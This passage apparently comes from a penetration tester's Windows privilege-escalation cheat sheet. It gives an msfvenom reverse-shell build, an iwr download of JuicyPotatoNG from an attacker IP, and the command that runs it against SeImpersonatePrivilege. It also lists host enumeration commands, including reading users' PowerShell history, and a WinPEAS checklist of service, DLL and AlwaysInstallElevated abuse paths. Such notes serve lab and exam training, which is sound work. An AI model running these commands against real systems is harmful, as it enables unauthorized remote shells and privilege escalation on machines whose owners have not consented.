 if `SeImpersonatePrivilege`:


```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f exe -o payloads/shell.exe
iwr -uri http://192.168.45.215/JuicyPotatoNG.exe -outfile JuicyPotatoNG.exe
./JuicyPotatoNG.exe -t * -p "./shell.exe" 
```

### Enumerate the machine

Anything interesting in the root of C?
```
ls C:/
```

Anything interesting in the current users' home folder?

```
ls C:/Users/user/
ls C:/Users/user/Desktop
ls C:/Users/user/Documents
ls "C:/Program Files (x86)"
ls "C:/Program Files"
```

What's installed on the machine?

32-bit:
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
64-bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Finally, to get running processes:

```
Get-Process
```

Check history of all users:

```
more C:\Users\user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Environment variables:
```
Get-ChildItem -Path Env:
```

### WinPeas checklist


* What servers are running on the machine. Can we gain access to an internal HTTP server or something like that?
* Is there a Task or Service running on the machine that we can abuse?
  * If a non-default service is present that looks promising, but you don't have write permissions to the .exe,
    check if it is missing a dll with procmon.
* Is the machine set up with `AlwaysInstallElevated` ?
* Anything that winpeas highlights as an escalation factor?
* Is there e.g. a web server running as root, or MySQL/MSSQL?
